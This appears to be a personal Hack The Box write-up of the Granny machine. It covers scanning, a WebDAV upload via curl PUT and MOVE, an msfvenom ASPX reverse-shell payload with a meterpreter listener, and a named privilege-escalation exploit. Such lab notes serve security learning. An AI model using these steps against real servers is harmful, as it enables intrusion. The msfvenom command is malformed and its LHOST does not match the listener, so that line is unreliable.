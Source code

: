 # Granny Pivot Grandpa
As a learning exercise I am going to pivot from the Granny machine to the Grandpa machine. I'm going to block access to Grandpa using iptables
To list all the rules:<br>
```bash
iptables -L
```
Since I don't use iptables too often I'll break down the command here
```bash
iptables -A OUTPUT -d 10.10.10.14 -j DROP
```
-A: Append to the output rules
-d: Destination that is being impacted
-j: Jump to what chain we want. In this case we want to drop all packets with a destination IP of 10.10.10.14

## Information Gathering
Granny: 10.10.10.15
Grandpa: 10.10.10.14

## Scanning and Enumeration
Running enumeration scripts before manual spidering:<br>

### Nmap
```bash
# Nmap 7.92 scan initiated Tue Jan 11 13:40:58 2022 as: nmap -sC -sV -oN nmap/granny.nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.028s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Tue, 11 Jan 2022 18:56:06 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 11 13:41:10 2022 -- 1 IP address (1 host up) scanned in 11.59 seconds
```

### Gobuster
```bash
gobuster dir -u http://10.10.10.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,txt -o gob/granny.gob

/images               (Status: 301) [Size: 149] [--> http://10.10.10.15/images/]
/Images               (Status: 301) [Size: 149] [--> http://10.10.10.15/Images/]
/IMAGES               (Status: 301) [Size: 149] [--> http://10.10.10.15/IMAGES/]
/_private             (Status: 301) [Size: 153] [--> http://10.10.10.15/%5Fprivate/]
/postinfo.html        (Status: 200) [Size: 2440]
```
### Nikto
Nikto is great because it scans for a lot of potentially vulnerable files/programs. I should start using this more often.
```bash
nikto -host 10.10.10.15 -format txt -o nikto/granny.nikto

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 1.1.4322
+ OSVDB-397: PUT HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: DELETE HTTP method 'DELETE' allows clients to delete files on the web server.
+ OPTIONS Retrieved dasl header: <DAV:sql>
+ OPTIONS Retrieved dav header: 1, 2
+ OPTIONS Retrieved ms-author-via header: MS-FP/4.0,DAV
+ OPTIONS Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS WebDAV enabled (PROPFIND LOCK SEARCH PROPPATCH COPY MKCOL UNLOCK listed as allowed)
+ OSVDB-13431: PROPFIND PROPFIND HTTP verb may show the servers internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: GET /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: GET /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: GET /_private/: FrontPage directory found.
+ OSVDB-3233: GET /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: GET /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: GET /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: GET /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. CVE-1999-1376. BID-2252.
+ OSVDB-67: POST /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ GET /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
```

### Davtest
Davtest tests and sees if a server is vulnerable to some form of arbitrary file upload which is enabled by the web server. I should really only ever check this if nmap detects PUT as a option.
```bash
davtest -url http://10.10.10.15

********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: BM7s7z
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_BM7s7z
********************************************************
 Sending test files
PUT	shtml	FAIL
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.jhtml
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.html
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.pl
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.jsp
PUT	cgi	FAIL
PUT	asp	FAIL
PUT	aspx	FAIL
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.php
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.txt
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.cfm
********************************************************
 Checking for test file execution
EXEC	jhtml	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.html
EXEC	pl	FAIL
EXEC	jsp	FAIL
EXEC	php	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.txt
EXEC	cfm	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_BM7s7z
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.jhtml
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.html
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.pl
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.jsp
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.php
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.txt
PUT File: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.cfm
Executes: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.html
Executes: http://10.10.10.15/DavTestDir_BM7s7z/davtest_BM7s7z.txt
```

## Exploitation
From davtest, you can upload specific files to the server. One thing to note is from the HTTP header information
```
HTTP/1.1 201 Created
Connection: close
Date: Tue, 11 Jan 2022 19:20:14 GMT
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Location: http://127.0.0.1/pwn.html
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK
```
This server uses ASP.NET which is sort of like Windows version of PHP. 
Set up a meterpreter reverse shell listener
```bash
msfconsole
msf6 > use exploits/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 10.10.14.122
msf6 > set lport 9999
msf6 > run
```
One thing to note is that the server does not allow uploads of files with asp or aspx. However, it does allow uploads of html and txt. From the nmap scan, MOVE is an available option. Thus, upload the file in an acceptable format and then use MOVE to change the extension.<br>
Create the payload with msfvenom<br>
```bash
msfvenom -p aspx windows/meterpreter/reverse_tcp LHOST=10.10.10.15 LPORT=9999 -f aspx > ex.aspx
```
Then upload and MOVE using curl. You can also do all of this in BurpSuite.
```bash
curl -X PUT http://10.10.10.15/ex.txt --data-binary @ex.aspx
curl -X MOVE http://10.10.10.15/ex.txt -H "Destination: http://10.10.10.15/ex.aspx"
```
Your meterpreter listener should catch a shell.

## Privilege Escalation
Within the meterpreter session:<br>
```bash
meterpreter > bg
msf6 > search suggester
msf6 > set session 1
msf6 > run
```
I'll use windows/local/ms14_058_track_popup_menu

## Persistence